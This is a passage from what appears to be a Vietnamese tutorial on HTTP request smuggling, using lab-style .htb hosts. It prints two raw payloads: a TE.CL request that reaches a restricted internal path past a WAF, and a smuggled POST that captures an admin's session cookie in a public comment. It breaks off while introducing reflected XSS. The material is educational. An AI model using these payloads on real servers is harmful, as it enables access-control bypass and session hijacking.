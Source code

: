   **Payload cho lỗ hổng TE.CL:**
  ```
  GET / HTTP/1.1
  Host: vuln.htb
  Content-Length: 4
  Transfer-Encoding: chunked
  35

  GET /internal/index.php HTTP/1.1
  Host: localhost
  0
  ```

WAF chỉ xử lý yêu cầu GET đầu tiên và không xem xét yêu cầu smuggled, giúp kẻ tấn công truy cập vào các đường dẫn bị hạn chế.

#### 2. **Đánh Cắp Dữ Liệu Người Dùng**
Kẻ tấn công có thể lợi dụng các lỗ hổng request smuggling để thao túng các yêu cầu và đánh cắp dữ liệu nhạy cảm của người dùng. Ví dụ, kẻ tấn công có thể ép người dùng đã xác thực (như admin) gửi yêu cầu với các tham số nhạy cảm (chẳng hạn như cookie phiên làm việc hoặc dữ liệu cá nhân) đến một địa chỉ mà kẻ tấn công có thể truy cập sau.

- **Ví dụ Tình huống:** Kẻ tấn công có thể thao túng một yêu cầu POST để gửi một bình luận, smuggle cookie phiên của admin vào thân yêu cầu. Kẻ tấn công sau đó có thể truy cập cookie phiên của admin và chiếm quyền truy cập.

  **Yêu cầu POST smuggled:**
  ```
  POST / HTTP/1.1
  Host: stealingdata.htb
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 154
  Transfer-Encoding: chunked
  0

  POST /comments.php HTTP/1.1
  Host: stealingdata.htb
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 300
  name=hacker&comment=test
  GET / HTTP/1.1
  Host: stealingdata.htb
  Cookie: sess=<admin_session_cookie>
  ```

Trong trường hợp này, kẻ tấn công smuggle một yêu cầu chứa cookie phiên của admin vào bình luận, và bình luận này sẽ xuất hiện công khai khi được gửi.

#### 3. **Khai Thác XSS Phản Chiếu Rộng Rãi**
Request smuggling cũng có thể được sử dụng để khai thác lỗ hổng **XSS phản chiếu** theo cách có thể mở rộng hơn. Điều này rất hữu ích trong các tình huống mà một lỗ hổng XSS phản chiếu tồn tại nhưng không thể khai thác vì kẻ tấn công không thể thao túng yêu cầu trình duyệt của nạn nhân trực tiếp. Với **request smuggling**, kẻ tấn công có thể thao túng các header HTTP của yêu cầu nạn nhân để chèn mã độc vào.

